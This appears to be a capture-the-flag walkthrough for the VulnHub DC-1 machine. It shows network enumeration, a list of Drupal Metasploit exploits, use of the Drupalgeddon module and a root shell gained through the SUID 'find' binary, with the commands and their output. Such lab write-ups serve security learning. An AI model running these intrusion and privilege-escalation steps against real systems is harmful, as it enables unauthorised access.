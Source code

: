 # DC-1

## 1.Enumeration

Let's scan for the ip address:

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:0e:16:d9	PCS Systemtechnik GmbH
192.168.56.113	08:00:27:b8:2f:68	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.113`

```bash
root@kali: nmap -sC -sV -p22,80,111,33997 -v -oN nmap.out 192.168.56.113

Nmap scan report for 192.168.56.113
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33997/tcp   status
|   100024  1          40014/tcp6  status
|   100024  1          47535/udp6  status
|_  100024  1          52850/udp   status
33997/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:2F:68 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Exploring port 80 shows website is a Drupal CMS, so we need to exploit a drupal

for finding the version use the command below:

```bash
curl http://192.168.56.113/ | grep 'content="Drupal'

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

## 2.Gaining Access


next we need to check any public exploit for this version :

```bash
root@kali: searchsploit drupal 7 | grep -i metasploit

Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                       | php/webapps/40149.rb
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)
```

as it shows there are afew exploits with metasploit:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/349468c4-b34c-464b-9ddc-1213ba7a7a73)

i used `multi/http/drupal_drupageddon` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7de0d071-2ffe-496b-bf0b-336f6516ec22)

## 3.Privilege Escalation

Search for any SUID binaries on the system  :

```bash
root@kali: find / -user root -perm /4000 2>/dev/null

/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

there is `find` binary here, so it can be easily exploited :

```bash
www-data@DC-1: find . -exec /bin/sh \; -quit

# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

cd /root

cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

this is how you can get root on the system.









